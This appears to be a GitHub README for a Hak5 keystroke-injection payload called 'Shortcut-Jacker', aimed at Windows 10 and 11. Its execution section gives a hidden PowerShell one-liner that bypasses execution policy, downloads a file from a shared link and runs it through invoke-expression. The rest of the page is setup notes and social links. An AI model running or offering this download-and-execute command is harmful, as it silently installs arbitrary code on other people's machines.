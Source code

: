 <img src="https://github.com/I-Am-Jakoby/hak5-submissions/raw/main/Assets/Shortcut-Jacker/shortcut.jpg" width="900">

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>


## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
